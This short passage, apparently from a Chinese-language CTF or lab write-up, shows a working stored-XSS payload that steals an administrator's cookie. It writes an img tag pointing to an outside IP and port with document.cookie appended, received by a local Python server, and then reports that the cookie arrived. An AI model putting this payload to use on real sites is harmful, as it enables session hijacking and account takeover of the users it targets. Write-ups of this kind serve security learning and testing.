 ![upload successful](/images/pasted-894.png)

成功弹窗，留一个偷管理员cookie的xss语句，并在本地启动一个`python m`服务器用来接收cookie
```xss
<script>
document.write('<img src=\"http://11.1.12.155:9091/?'+document.cookie+'\"/>')
</script>
```

成功接收到cookie
![upload successful](/images/pasted-897.png)

